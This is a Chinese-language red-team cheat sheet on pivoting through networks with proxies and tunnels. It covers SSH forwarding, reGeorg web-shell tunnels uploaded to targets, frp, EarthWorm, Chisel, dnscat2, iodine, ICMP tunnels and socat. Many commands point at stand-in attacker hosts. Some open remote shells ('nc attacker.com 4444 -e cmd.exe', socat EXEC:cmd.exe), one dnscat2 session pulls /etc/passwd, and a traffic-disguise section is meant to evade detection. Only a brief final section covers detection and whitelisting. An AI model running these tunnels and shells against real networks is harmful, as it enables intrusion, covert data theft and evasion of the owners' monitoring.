


# 代理与隧道技术

> 从SSH隧道到DNS隧道，全面掌握内外网穿透技术

---

## 一、隧道技术基础

### 1.1 什么是隧道



### 1.2 隧道协议选择

| 出网协议 | 常见端口 | 防火墙策略 | 隐蔽性 | 速率 |
|:---------|:---------|:-----------|:-------|:-----|
| HTTP/HTTPS | 80/443 | 几乎总是放行 | 高 | 中 |
| DNS | 53 | 总是放行 | 极高 | 低 |
| SSH | 22 | 通常放行 | 中 | 高 |
| ICMP | - | 部分放行 | 中 | 低 |
| WebSocket | 80/443 | 放行 | 高 | 高 |
| QUIC | 443 | 新协议可能放行 | 高 | 高 |
| SMB | 445 | 内网开放 | 低 | 高 |

### 1.3 代理类型

| 类型 | 描述 | 支持协议 | 适用场景 |
|:-----|:-----|:---------|:---------|
| HTTP代理 | 转发HTTP请求 | HTTP/HTTPS | Web代理 |
| SOCKS4 | 基本代理 | TCP | 通用代理 |
| SOCKS5 | 增强代理 | TCP/UDP | 通用代理+认证 |
| 正向代理 | 客户端代理 | HTTP/TCP | 出网代理 |
| 反向代理 | 服务端代理 | HTTP/TCP | 内网发布 |
| 透明代理 | 无需配置 | HTTP/TCP | 强制代理 |

---

## 二、SSH隧道

### 2.1 本地转发

```bash
# 语法: ssh -L [本地地址:]本地端口:目标地址:目标端口 跳板机

# 基础用法 - 访问内网Web
ssh -L 8080:internal-web:80 user@jumphost
# 访问 http://localhost:8080 → internal-web:80

# 访问内网数据库
ssh -L 3306:database:3306 user@jumphost
# 本地连接 mysql -h 127.0.0.1 -P 3306

# 绑定特定本地地址
ssh -L 0.0.0.0:8080:internal-web:80 user@jumphost
# 允许局域网其他设备访问

# 多端口转发
ssh -L 8080:web:80 -L 3306:db:3306 user@jumphost
```

### 2.2 远程转发

```bash
# 语法: ssh -R [远程地址:]远程端口:本地地址:本地端口 公网服务器

# 暴露内网服务到公网
ssh -R 8080:localhost:80 user@public-server
# 公网访问 http://public-server:8080 → 内网localhost:80

# 反向Shell隧道
# 在内网机器上
ssh -R 4444:localhost:4444 user@attacker.com
# 攻击者监听本地4444端口

# 绑定到特定地址
ssh -R 0.0.0.0:8080:localhost:80 user@public-server
# 允许任意IP访问远程端口
```

### 2.3 动态转发 (SOCKS代理)

```bash
# 语法: ssh -D [本地地址:]本地端口 跳板机

# 基础SOCKS代理
ssh -D 1080 user@jumphost
# 配置浏览器使用 SOCKS5 127.0.0.1:1080

# 开启隧道模式
ssh -D 1080 -N -f user@jumphost
# -N: 不执行远程命令
# -f: 后台运行

# 使用压缩
ssh -D 1080 -C user@jumphost

# 通过代理访问内网
proxychains4 nmap -sT -Pn 10.0.0.1
proxychains4 rdesktop 10.0.0.10:3389
```

### 2.4 SSH跳板

```bash
# 多级跳板 -J参数
ssh -J user1@gateway1,user2@gateway2 user3@target

# 配置文件方式
# ~/.ssh/config
Host target
    HostName 10.0.0.100
    User admin
    ProxyJump user@gateway1,user@gateway2

# 链式转发
ssh -L 8080:internal:80 -J user@public user@internal-jump
```

### 2.5 SSH配置文件

```bash
# ~/.ssh/config 完整配置
Host jumphost
    HostName 192.168.1.1
    User admin
    Port 2222
    IdentityFile ~/.ssh/jumphost_key
    Compression yes
    ServerAliveInterval 60
    ServerAliveCountMax 3

Host internal
    HostName 10.0.0.100
    User root
    ProxyJump jumphost
    LocalForward 8080 localhost:80
    DynamicForward 1080

# 自动重连
Host *
    ServerAliveInterval 30
    TCPKeepAlive yes

# 使用
ssh internal
```

---

## 三、HTTP隧道

### 3.1 reGeorg

```bash
# 服务端脚本 (上传到目标)
# tunnel.jsp / tunnel.aspx / tunnel.php

# 客户端
python reGeorgSocksProxy.py -p 1080 -u http://target/tunnel.jsp

# 通过代理使用
proxychains4 nmap -sT -Pn 192.168.1.0/24
proxychains4 rdesktop 192.168.1.100
```

### 3.2 Neo-reGeorg

```bash
# 生成加密隧道脚本
python neoreg.py generate -k password

# 上传 tunnel.jsp / tunnel.aspx / tunnel.php 到目标

# 连接
python neoreg.py -k password -u http://target/upload/tunnel.php

# 高级选项
python neoreg.py -k password -u http://target/tunnel.php -p 1080 --skip
```

### 3.3 Frp (Fast Reverse Proxy)

```ini
# frps.ini (服务端 - 公网服务器)
[common]
bind_port = 7000
bind_udp_port = 7001
kcp_bind_port = 7000
vhost_http_port = 8080
dashboard_port = 7500
dashboard_user = admin
dashboard_pwd = admin
token = your_token

# frpc.ini (客户端 - 目标内网)
[common]
server_addr = attacker.com
server_port = 7000
token = your_token

[web]
type = http
local_port = 80
subdomain = target
# 访问 http://target.attacker.com:8080

[socks5]
type = tcp
remote_port = 1080
plugin = socks5
plugin_user = admin
plugin_passwd = password

[tcp]
type = tcp
local_ip = 127.0.0.1
local_port = 3389
remote_port = 3389
# 访问 attacker.com:3389 → 内网3389

[xtcp]
type = xtcp
local_ip = 127.0.0.1
local_port = 22
role = server
# P2P连接
```

### 3.4 EarthWorm

```bash
# EW (EarthWorm) - 正向代理
./ew -s ssocksd -l 1080

# EW - 反向代理 (目标出网)
# 攻击机
./ew -s rcsocks -l 1080 -e 8888
# 目标机
./ew -s rssocks -d attacker-ip -e 8888

# EW - 二级级联
# 攻击机 - 跳板机 - 目标
# 攻击机
./ew -s lcx_listen -l 1080 -e 8888
# 跳板机
./ew -s lcx_tran -l 8888 -f target-ip -g 9999
# 目标机
./ew -s lcx_slave -d jumphost-ip -e 9999 -f 127.0.0.1 -g 3389
```

### 3.5 Ngrok

```bash
# 注册ngrok账号
# 下载客户端
./ngrok authtoken your_token

# 暴露内网Web服务
./ngrok http 80

# 暴露内网SSH
./ngrok tcp 22

# 自定义域名
./ngrok http -hostname=my.domain.com 80

# 配置文件
# ngrok.yml
authtoken: your_token
tunnels:
  web:
    proto: http
    addr: 80
  ssh:
    proto: tcp
    addr: 22
```

---

## 四、DNS隧道

### 4.1 dns2tcp

```bash
# 服务端 (攻击机)
dns2tcpd -f dns2tcpd.conf -F

# dns2tcpd.conf
listen = 0.0.0.0
port = 53
domain = tunnel.domain.com
user = dns2tcp
key = secret
chroot = /tmp

# 客户端 (目标)
dns2tcpc -c -z tunnel.domain.com -l 8888 -r ssh -k secret
ssh -o "ProxyCommand nc -p 8888" user@localhost
```

### 4.2 dnscat2

```bash
# 服务端 (攻击机)
ruby dnscat2.rb --dns "domain=attacker.com" --secret=abcdef

# 客户端 (目标)
dnscat2-v0.07-client.exe --dns domain=attacker.com --secret=abcdef

# 交互
# 在服务端控制台
session -i 1  # 选择会话
shell         # 获得shell
exec whoami   # 执行命令
download /etc/passwd  # 下载文件
```

### 4.3 Iodine

```bash
# 服务端
iodined -f -c -P secret 10.0.0.1 tunnel.domain.com

# 客户端
# Linux
iodine -f -P secret ns1.tunnel.domain.com

# Windows
iodine.exe -f -P secret ns1.tunnel.domain.com

# 验证
ping 10.0.0.1
ssh user@10.0.0.1
```

---

## 五、ICMP隧道

### 5.1 PingTunnel

```bash
# 服务端 (攻击机)
ptunnel -x password

# 客户端 (目标)
# 转发SSH流量
ptunnel -p attacker-ip -lp 1080 -da 127.0.0.1 -dp 22 -x password

# 连接
ssh -p 1080 user@127.0.0.1
```

### 5.2 Hans

```bash
# 服务端
hans -s 10.0.0.1 -f -m 1400 -p password

# 客户端
hans -c attacker-ip -f -m 1400 -p password

# 验证
ping 10.0.0.1
```

---

## 六、SOCKS代理链

### 6.1 Proxychains

```bash
# proxychains4.conf
[ProxyList]
# 单级代理
socks5 127.0.0.1 1080

# 多级代理
socks4 127.0.0.1 1080
socks5 10.0.0.1 1081
http 192.168.1.1 8080

# 随机链 (轮流使用)
random_chain = true
chain_len = 2

# 使用
proxychains4 nmap -sT -Pn 10.0.0.100
proxychains4 curl http://10.0.0.100/admin
proxychains4 rdesktop 10.0.0.100
```

### 6.2 ProxyChains-NG

```bash
# 编译安装
git clone https://github.com/rofl0r/proxychains-ng
cd proxychains-ng
./configure && make && make install

# 配置
# /etc/proxychains.conf
strict_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 9050
```

### 6.3 RedSocks

```bash
# redsocks.conf
base {
    log_debug = off;
    log_info = on;
    log = "file:/var/log/redsocks.log";
    daemon = on;
    redirector = iptables;
}

redsocks {
    local_ip = 127.0.0.1;
    local_port = 12345;
    ip = 127.0.0.1;
    port = 1080;
    type = socks5;
}

# iptables重定向
iptables -t nat -A OUTPUT -p tcp --dport 80 -j REDIRECT --to-port 12345
iptables -t nat -A OUTPUT -p tcp --dport 443 -j REDIRECT --to-port 12345
```

---

## 七、WebSocket隧道

### 7.1 WSTunnel

```bash
# 服务端
wstunnel server ws://0.0.0.0:8080

# 客户端 - 转发SSH
wstunnel client ws://attacker.com:8080 -L 2222:localhost:22

# 使用
ssh -p 2222 user@localhost
```

### 7.2 Chisel

```bash
# 服务端 (攻击机)
chisel server -p 8080 --reverse

# 客户端 (目标)
chisel client attacker.com:8080 R:socks

# 端口转发
chisel client attacker.com:8080 R:8080:localhost:80

# 多路复用
chisel client attacker.com:8080 \
    R:8080:localhost:80 \
    R:2222:localhost:22 \
    R:socks

# 编译Windows版本
GOOS=windows GOARCH=amd64 go build -o chisel.exe
```

---

## 八、端口转发工具

### 8.1 Socat

```bash
# TCP端口转发
socat TCP-LISTEN:8080,fork TCP:10.0.0.100:80

# UPD端口转发
socat UDP-LISTEN:53,fork UDP:8.8.8.8:53

# 双向通信
socat TCP-LISTEN:4444,fork EXEC:cmd.exe

# 加密转发
socat TCP-LISTEN:443,fork,reuseaddr OPENSSL:10.0.0.100:443
```

### 8.2 Netcat

```bash
# 简单端口转发
mkfifo /tmp/fifo
cat /tmp/fifo | nc -l -p 8080 | nc 10.0.0.100 80 > /tmp/fifo

# 反向连接
# 攻击机
nc -lvp 4444
# 目标机
nc attacker.com 4444 -e cmd.exe
```

### 8.3 Ligolo

```bash
# 服务端 (攻击机)
./ligolo_proxy -selfcert

# 客户端 (目标)
./ligolo_agent -connect attacker.com:443 -ignore-cert

# 在服务端
session_start
listener_add --tcp listen:8080 target:80
```

---

## 九、TLS/SSL隧道

### 9.1 Stunnel

```bash
# stunnel.conf (客户端)
client = yes
[https]
accept = 127.0.0.1:8080
connect = attacker.com:443
# 访问 localhost:8080 → attacker.com:443 → 内网

# stunnel.conf (服务端)
[https]
accept = 443
connect = 127.0.0.1:80
# HTTPS接收 → HTTP转发到内部服务
```

### 9.2 Nginx反向代理

```nginx
# nginx.conf - 正向代理
server {
    listen 8080;
    location / {
        resolver 8.8.8.8;
        proxy_pass http://$http_host$request_uri;
        proxy_set_header Host $http_host;
    }
}

# nginx.conf - 反向代理(隧道)
stream {
    server {
        listen 443;
        proxy_pass 10.0.0.100:3389;
        proxy_ssl on;
    }
}
```

---

## 十、多层代理架构

### 10.1 代理链部署



### 10.2 流量伪装

```bash
# 使用HTTPS隐藏流量
# 1. 申请合法SSL证书
certbot certonly --standalone -d tunnel.domain.com

# 2. Nginx TLS终结
server {
    listen 443 ssl;
    server_name tunnel.domain.com;
    
    ssl_certificate /etc/letsencrypt/live/tunnel.domain.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/tunnel.domain.com/privkey.pem;
    
    location / {
        proxy_pass http://127.0.0.1:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
    }
}

# 3. 使用WebSocket掩码
location /ws {
    proxy_pass http://127.0.0.1:8081;
    proxy_http_version 1.1;
    proxy_set_header Upgrade $http_upgrade;
    proxy_set_header Connection "upgrade";
}
```

### 10.3 流量混淆工具

```bash
# obfuscated-openssh
# 修改SSH流量特征

# KCPTun - 基于KCP的隧道
kcptun-server -t "127.0.0.1:8388" -l ":29900"
kcptun-client -r "attacker.com:29900" -l ":1080"

# Shadowsocks - 加密代理
ss-server -s 0.0.0.0 -p 8443 -k password -m aes-256-gcm
ss-local -s attacker.com -p 8443 -k password -m aes-256-gcm -l 1080
```

---

## 十一、防御与检测

### 11.1 网络层检测

| 检测方法 | 检测对象 | 工具 |
|:---------|:---------|:-----|
| DNS请求分析 | DNS隧道 | Zeek/Suricata |
| ICMP分析 | Ping隧道 | Zeek |
| SSL/TLS指纹 | 加密隧道 | JA3指纹 |
| 流量特征分析 | HTTP/WebSocket | 流量分析 |
| DPI深度包检测 | 协议异常 | 下一代防火墙 |

### 11.2 DNS隧道检测

```bash
# 检测特征
# 1. 高频DNS请求
# 2. 异常长的域名
# 3. 随机子域名
# 4. TXT记录查询量大
# 5. 非常见记录类型

# Zeek检测脚本
# dns_tunnel.zeek
event dns_request(c: connection, msg: dns_msg, query: string, qtype: count, qclass: count)
{
    if (|query| > 50) {
        NOTICE([$note=DNS::Tunnel,
                $msg=fmt("Suspicious long DNS query: %s", query),
                $conn=c]);
    }
}
```

### 11.3 流量白名单

```python
# 基于端口的白名单
allowed_ports = [80, 443, 22, 53]
# 除这些端口外阻止出站

# 基于域名的白名单
allowed_domains = ['*.company.com', '*.microsoft.com']
# 仅允许白名单域名DNS解析

# 基于应用的识别
# 使用DPI识别应用层协议
# 阻止非标准协议流量
```

---

## 十二、速查总表

### 12.1 命令速查

| 场景 | 命令 |
|:-----|:------|
| SSH本地转发 | `ssh -L 8080:target:80 user@jump` |
| SSH远程转发 | `ssh -R 8080:localhost:80 user@public` |
| SSH动态代理 | `ssh -D 1080 user@jump` |
| SSH跳板 | `ssh -J user@jump1,user@jump2 user@target` |
| Chisel服务端 | `chisel server -p 8080 --reverse` |
| Chisel客户端 | `chisel client server:8080 R:socks` |
| Frp SOCKS | `frpc -c frpc.ini` |
| DNS隧道(dnscat2) | `dnscat2-client --dns domain=attacker.com` |
| ICMP隧道 | `ptunnel -p attacker -lp 1080 -da target -dp 22` |
| HTTP隧道(neoreg) | `python neoreg.py -k key -u http://target/tunnel.php` |

### 12.2 端口对应

| 协议 | 端口 | 用途 |
|:-----|:----|:-----|
| HTTP | 80 | Web隧道基础 |
| HTTPS | 443 | 加密隧道 |
| DNS | 53 | DNS隧道 |
| SSH | 22 | SSH隧道 |
| SOCKS | 1080 | 代理端口 |
| Chisel | 8080 | Chisel监听 |
| Frp | 7000 | Frp控制 |
| Iodine | 53 | DNS隧道 |

### 12.3 推荐工具

| 工具 | 用途 | 特点 |
|:-----|:-----|:-----|
| Chisel | HTTP隧道 | Go实现/单文件 |
| Frp | 内网穿透 | 多功能/高性能 |
| Neo-reGeorg | Web隧道 | 加密/绕过检测 |
| Ligolo | 多级代理 | 自动路由 |
| Proxychains | 代理链 | 透明代理 |
| Socat | 端口转发 | 轻量/灵活 |
| Stunnel | TLS隧道 | 加密任意TCP |
| Shadowsocks | 加密代理 | 高隐蔽性 |

---

> **参考资源**
>
> - Chisel Documentation
> - Frp Documentation
> - Proxychains Documentation
> - SSH Tunneling Guide
> - OWASP Tunneling Guide
